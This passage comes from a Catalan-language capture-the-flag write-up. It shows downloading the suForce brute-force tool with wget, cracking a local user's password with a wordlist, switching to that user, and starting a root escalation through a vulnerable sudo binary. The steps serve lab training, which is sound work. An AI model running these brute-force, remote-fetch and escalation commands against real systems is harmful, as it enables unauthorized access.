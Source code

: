 Descarreguem l'eina `suForce` de d4t4s3c, eina molt útil per fer força bruta.

```bash
wget --no-check-certificate -q "https://raw.githubusercontent.com/d4t4s3c/suForce/refs/heads/main/suForce" && chmod +x suForce 
```

i la utilitzem amb el diccionari creat per intentar obtenir la contrasenya de l'usuari ll104567.

```bash
./suForce -u ll104567 -w ./diccionario.txt
```

![suForce](../../../assets/images/zerotrace/suforce.png)

Bingo! Obtenim la contrasenya de l'usuari ll104567.

## Escalada privilegis de ll104567 a root

Ara que tenim accés com a usuari ll104567, podem procedir a llegir la flag de l'usuari (user.txt) que anteriorment no teníem permisos per accedir.

Utilitzant `su` des de l'usuari shelldredd o accedint mitjançant `SSH` amb la contrasenya obtinguda accedim com l'usuari `ll104567`.

```bash
su ll104567
```

![su](../../../assets/images/zerotrace/su.png)

L'usuari `ll104567` té permisos per executar com a `root` mitjançant sudo l'executable `/home/ll104567/guessme` que vam analitzar prèviament i era vulnerable.
